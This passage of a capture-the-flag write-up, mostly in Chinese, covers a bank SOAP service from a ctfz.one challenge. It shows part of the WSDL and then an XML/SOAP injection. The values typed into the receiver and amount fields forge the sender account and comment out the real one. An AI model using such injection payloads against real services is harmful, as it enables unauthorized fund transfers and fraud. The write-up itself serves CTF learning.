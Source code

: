    ```xml
   <soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
   </input>
   <output>
   <soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
   </output>
   </operation>
   </binding>
   <wsdl:service name="BankService">
   <wsdl:port name="BankServicePort" binding="tns:BankServiceBinding">
   <soap:address location="http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/api/bankservice.php"/>
   </wsdl:port>
   </wsdl:service>
   </wsdl:definitions>
   ```

2. 包含两个API

   - **Request Balance** allows us to see the balance of any account id we want.
   - **Internal Transfer** transfers some amount from account *sender* to account *receiver*.

3. 解法1：XML/soap注入

   internalTransfer请求：

   ```xml
   <receiver_wallet_num xsi:type="xsd:decimal"> [DATA FROM FORM INPUT] </receiver_wallet_num>
   <sender_wallet_num xsi:type="xsd:decimal"> [LOGGED IN USER ID] </sender_wallet_num>
   <amount xsi:type="xsd:float"> [DATA FROM FORM INPUT] </amount>
   <token xsi:type="xsd:string"> [SECRET SERVER TOKEN] </token>
   ```

   传递参数Receiver:

   ```
   (Our ID) </receiver_wallet_num>
   <sender_wallet_num xsi:type="xsd:decimal">(Any ID)</sender_wallet_num><!--
   ```

   传递参数Amount:

   ```
   --><amount xsi:type="xsd:float"> (Amount)
   ```

   结果:

   ```xml
   <receiver_wallet_num xsi:type="xsd:decimal"> (Our ID) </receiver_wallet_num>
   <sender_wallet_num xsi:type="xsd:decimal">(Any ID)</sender_wallet_num>
   <!-- </receiver_wallet_num>
   <sender_wallet_num xsi:type="xsd:decimal"> [LOGGED IN USER ID] </sender_wallet_num>
   <amount xsi:type="xsd:float"> 
   -->
   <amount xsi:type="xsd:float"> (Amount) </amount>
   <token xsi:type="xsd:string"> [SECRET SERVER TOKEN] </token>
   ```
